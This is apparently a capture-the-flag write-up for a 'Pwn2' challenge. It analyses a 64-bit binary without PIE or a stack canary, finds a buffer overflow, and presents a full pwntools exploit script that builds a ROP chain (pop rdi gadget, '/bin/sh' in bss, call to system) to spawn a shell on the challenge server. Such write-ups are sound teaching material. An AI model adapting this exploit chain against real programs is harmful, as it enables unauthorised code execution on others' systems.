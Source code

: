 ## Pwn2

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 64 bit binary.  PIE is not enable and we don't have a stack canary.  View the decompilation in ghidra.

![ghidra](./screenshots/ghidra.png)

Here we see a buffer overflow on line 12.  Immediately after that we see a call to system.  If we can put our own string into RDI and jump to the system address we should be able to spawn a shell.  It looks like user input from the first fgets is written to address 0x404090 in the bss section.  This will contain our string "/bin/sh".  Lets look for a gadget to write to RDI.

![ropgadget](./screenshots/ropgadget.png)

0x401196 will work. We also need the address for a call to system (0x401280).

We have everything we need to craft our exploit.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./pwn2")

if args.REMOTE:
    p = remote('challs.n00bzunit3d.xyz', 61223)
elif args.GDB:
    p = gdb.debug(binary.path, gdbscript="b *main")
else:
    p = process(binary.path)

# pop rdi; ret
rdi_gadget  = 0x401196
input_addr  = 0x404090
system_addr = 0x401280

shellcode = b"/bin/sh\x00"
p.sendline(shellcode)

payload = b""
payload += b"A" * 0x28
payload += p64(rdi_gadget)
payload += p64(input_addr)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()
```

![exploit](./screenshots/exploit.png)

Success!